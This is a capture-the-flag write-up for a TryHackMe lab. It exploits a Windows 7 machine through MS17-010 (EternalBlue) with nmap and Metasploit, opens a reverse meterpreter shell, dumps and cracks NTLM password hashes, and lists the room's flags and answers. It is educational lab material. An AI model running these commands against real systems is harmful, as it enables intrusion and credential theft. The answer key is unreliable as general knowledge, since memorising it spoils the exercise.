

# Try Hack Me Writeup - Blue

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

Room: https://tryhackme.com/room/blue

This is a complete and full writeup of the Blue room on Try Hack Me. This writeup has been made on August 2021. The steps in the walkthrough video available in this room are slightly different as software updates made in sort of these little procedure changes. This writeup reflect the curent state.



Art by one of our members, Varg - [THM Profile](https://tryhackme.com/p/Varg) - [Instagram](https://www.instagram.com/varghalladesign/) - [Blue Merch](https://www.redbubble.com/shop/ap/53637482) - [Twitter](https://twitter.com/Vargnaar)

Link to Ice, the sequel to Blue: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)

-----------------------------------------

The virtual machine used in this room (Blue) can be downloaded for offline usage from https://darkstar7471.com/resources.html

Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

## Tools Used

* `nmap` - To enumerate the target host and also to get vulnerability information of that host.
* `metasploit` - The exploit tool.
* `john` - To crack the hash of the NTLM password.
* A few very basic GNU / Linux commands.

## Task 1 - Recon

_Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. **This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.**_

Once the virtual machine of TryHackMe booted up, I got my ip of that virtual machine. So moving on now on my `Kali` machine which is connected to the `TryHackMe` VPN, with the standard Network / VPN build in GUI tool of `XFCE`. As I have my ip of this virtual machine, I create an environment variable which will hold the `ip` of that virtual machine. That make things more easily to manage when using different applications. I then just refer to that `ip` variable without bothering too much about the `ip` itself or my typo errors.

    export IP=10.10.19.224

So the first thing to do is to enumerate the virtual machine to find out what ports are open and to what this machine is vulnerable. For this I used `nmap` with the options to scan version numbering (`-sV`), execute the standard scan scripts (`-sC`) and an important one in this case, `--script vuln`. I also saved the scan result with `-oN` option in the normal `nmap` format (See `-oA` to save the result in the 3 different formats: normal, grepable and XML which is more handy if we want to import the scan results in for example `metasploit`). Finally, I refer to my environment variable `$IP` which hold the ip address of that virtual machine.

```commandline
sudo nmap -sV -sC --script vuln -oN /tmp/blue_nmap_scan $IP
```

This scan takes a bit more time as it will check for know vulnerabilities. As following the output of the `nmap` scan:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 02:37 CEST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.19.224
Host is up (0.032s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.37 seconds
```

We see that there are a few open ports. We also see that this machine is vulnerable to different exploits, and we even have links to more information:

* CVE-2012-0152
* CVE-2012-0002
* CVE-2017-0143

In this case, we are very interested in CVE-2017-0143. Clicking on the [Mitre link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143) from the output, gives us interesting information. On the [Mitre link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143) website, we have also links to other resources. It is very interesting to take a look to these different links. Especially those referencing to the https://exploit-db.com website.

Another very informative point in that `nmap` scan result line:

    Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

The `ms17-010` is something we will look up in the metasploit (`msfconsole`):

### Answer the questions below

Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

    No answer needed

How many ports are open with a port number under 1000?

    3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

    ms17-010

## Task 2 - Gain Access

_Exploit the machine and gain a foothold._

Starting up `Metasploit` with the command `sudo msfconsole`.  Once loaded, I did a search on `ms17-010` with the search command:

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
````

Interested in the first (`#0`) item in this search result. So I wanted to make use of it with:

```
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

_Note that you can `use` the full name of the matching module (`use exploit/windows/smb/ms17_010_eternalblue`) and using the tab key for autocompletion, or just refer to the number like I have done._

From there on, we need to see which options we need to set with the `show options` command:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targ
                                             et machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target m
                                             achines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.54     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

The 2 very important options we need to set before proceeding to the next step is changing the variables of `RHOSTS` and `LHOST`. The rest of the options I left as is:

```
set RHOSTS 10.10.19.224
set LHOST tun0
```

Note that here I have set `LHOST` to `tun0`, which is my VPN network device connected to the Try Hack Me network. This instead of filling in the ip address. Both methods are allowed. But setting up this variable is mandatory otherwise the exploit will not work. This isn't mentioned in the walk through video and seems like this was not required back then.

Finally, execute the exploit with the `run`  or `exploit` command. `exploit` is an alias to `run`:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.8.208.30:4444 
[*] 10.10.19.224:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.19.224:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.19.224:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.19.224:445 - The target is vulnerable.
[*] 10.10.19.224:445 - Connecting to target for exploitation.
[+] 10.10.19.224:445 - Connection established for exploitation.
[+] 10.10.19.224:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.19.224:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.19.224:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.19.224:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.19.224:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.19.224:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.19.224:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.19.224:445 - Sending all but last fragment of exploit packet
[*] 10.10.19.224:445 - Starting non-paged pool grooming
[+] 10.10.19.224:445 - Sending SMBv2 buffers
[+] 10.10.19.224:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.19.224:445 - Sending final SMBv2 buffers.
[*] 10.10.19.224:445 - Sending last fragment of exploit packet!
[*] 10.10.19.224:445 - Receiving response from exploit packet
[+] 10.10.19.224:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.19.224:445 - Sending egg to corrupted connection.
[*] 10.10.19.224:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.19.224
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.19.224:49283) at 2021-08-11 03:23:11 +0200
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.19.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### Answer the questions below

Start [Metasploit](https://tryhackme.com/room/rpmetasploit)

    No answer needed

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

    exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

    RHOSTS

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

    set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

    No answer needed

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

    No answer needed

## Task 3 - Escalate

_Escalate privileges, learn how to upgrade shells in metasploit._

**This whole section of Escalating can be completely skipped and is not like shown in the walk through video. As things have changed in the actual metasploit framework. These are now automatically done.**

We can get confirmation with the `getsystem` and `getuid` commands:

```
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So we have the user rights of `NT AUTHORITY\SYSTEM` which is perfect.

We can also check with the `getpid` and `ps` commands, and we see that the exploit has been migrated to a very stable `spoolsv.exe` process. The `spoolsv.exe` is a very stable and fast process. In the worst case, if that process crash, it automatically restarts, and we have back control of the target machine:

```
meterpreter > getpid
Current pid: 1312
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 432   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 484   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 560   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 608   552   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 620   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 660   600   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 708   608   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 716   608   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 724   608   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 832   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 900   708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 948   708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  660   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1080  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1184  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 1312  708   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1348  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1408  708   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1484  708   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1624  708   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1952  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 2084  832   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\wbem\wmiprvse.exe
 2340  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 2372  708   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\sppsvc.exe
 2512  708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2560  708   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2680  708   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe
 3048  708   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
```

### Answer the questions below

_If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)_ 

    post/multi/manage/shell_to_meterpreter

Select this (use MODULE_PATH). Show options, what option are we required to change?

    session

Set the required option, you may need to list all of the sessions to find your target here.

    No answer needed

Run! If this doesn't work, try completing the exploit from the previous task once more.

    No answer needed

Once the meterpreter shell conversion completes, select that session for use.

    No answer needed

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

    No answer needed

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

    No answer needed

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

    No answer needed

## Task 4 - Cracking

_Dump the non-default user's password and crack it!_

Dumping the hash password database can be simply done with the `hashdump` command:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copied the whole last line and pasted it into a text file called `jon_hash.txt`.

```commandline
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > /tmp/jon_hash.txt
```

Cracking the password hash of the user `jon` with the `john` tool. Almost confusing:

```commandline
john /tmp/jon_hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2021-08-11 04:02) 2.272g/s 23182Kp/s 23182Kc/s 23182KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

**Note that if you already have cracked that password hash and re-execute that previous command, `john` will not show you the cracked password again. Pretty confusing. `john` saves cracked hashes in `~/.john/john.pot`. Removing that file can be quick fix. See [this link](https://www.openwall.com/john/doc/FAQ.shtml#:~:text=To%20display%20cracked%20passwords%2C%20use,hashes%20again%2C%20remove%20the%20john.) for more information.**

### Answer the questions below

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

    jon

Copy this password hash to a file and research how to crack it. What is the cracked password?

    alqfna22

## Task 5 - Find flags!

_Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!_

To accomplish this without guidance, requires a bit of researches on the system or on internet.

**Note that we need to make use of double backslash when specifying paths. We can also make use of autocompletion by pressing the TAB key, but do not forget to remove the additional space that get added on the end.**

The first, `flag1.txt` is located on the root of the `C:` drive:

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd c:\\
meterpreter > pwd
c:\
meterpreter > cat flag1.txt 
flag{access_the_machine}
```

The second, `flag2.txt` is stored in the `C:\windows\system32\config`:

```
meterpreter > pwd                                          
c:\
meterpreter > cd c:\\windows\\system32\\config
meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
```

The last, `flag3.txt` is stored in `C:\Users\Jon\Documents `:

```
meterpreter > pwd
c:\windows\system32\config
meterpreter > cd c:\\Users\\Jon\\Documents 
meterpreter > cat flag3.txt 
flag{admin_documents_can_be_valuable}
```

### Answer the questions below

Flag1? This flag can be found at the system root. 

    flag{access_the_machine}

Flag2? This flag can be found at the location where passwords are stored within Windows.

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

    flag{sam_database_elevated_access}

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

    flag{admin_documents_can_be_valuable}


## After this

Completed Blue? Check out Ice: [Link](https://tryhackme.com/room/ice)

You can check out the third box in this series, Blaster, here: [Link](https://tryhackme.com/room/blaster)
